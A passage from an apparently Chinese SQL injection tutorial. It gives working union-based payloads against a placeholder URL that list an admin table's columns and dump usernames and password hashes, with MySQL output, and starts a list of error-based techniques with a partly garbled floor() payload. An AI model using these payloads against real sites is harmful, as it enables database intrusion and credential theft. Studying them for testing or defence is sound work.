 limit 0 = id

limit 1 = username

limit 2 = password

web语句: http://www.test.com/sql.php?id=-1 union select 1,column_name,3,4 from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1,1;

数据库语句: select * from test where id = -1 union select 1,column_name,3,4 from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1,1;

```plain
mysql> select * from test where id=-1 union select 1,column_name,3,4 from information_schema.columns where table_schema=DATABASE() AND table_name='tdb_admin' limit 1,1;
+----+----------+------+---------+
| id | test     | map  | content |
+----+----------+------+---------+
|  1 | username | 3    | 4       |
+----+----------+------+---------+
1 row in set (0.01 sec)
```

## 0x09 爆内容

注意: limit 0 表示要显示那一条数据

limit 0 表示第一条

limit 1 表示第二条

web语句: http://www.test.com/sql.php?id=-1 union select 1,concat(0x7e,id,0x3a,username,0x3a,password,0x7e),3,4 from test.tdb_admin limit 0,1

数据库语句: select * from test where id=-1 union select 1,concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e),3,4 from 库名.表名 limit 0,1;

```plain
mysql> select * from test where id=-1 union select 1,concat(0x7e,id,0x3a,username,0x3a,password,0x7e),3,4 from test.tdb_admin limit 0,1;
+----+--------------------------------------------+------+---------+
| id | test                                       | map  | content |
+----+--------------------------------------------+------+---------+
|  1 | ~1:admin:7fef6171469e80d32c0559f88b377245~ | 3    | 4       |
+----+--------------------------------------------+------+---------+
1 row in set (0.00 sec)
```

# MySQL 报错注入方法与说明

报错注入主要用于在页面中没有显示位，但是使用了**echo mysql_error()**;输出了错误信息时使用。

## 0x00 十种MySQL报错注入

1. floor()
   常用报错注入方法之一
   数据库语句：select * *from test where id=1 and (select 1 from (select count(**),concat(VERSION(),floor(rand(0)*2))x from information_schema.tables group by x)a);
